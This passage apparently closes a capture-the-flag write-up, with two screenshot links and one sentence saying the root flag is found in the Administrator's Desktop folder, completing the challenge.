

The root flag can be found in the Administrators Desktop folder thus solving the challenge!


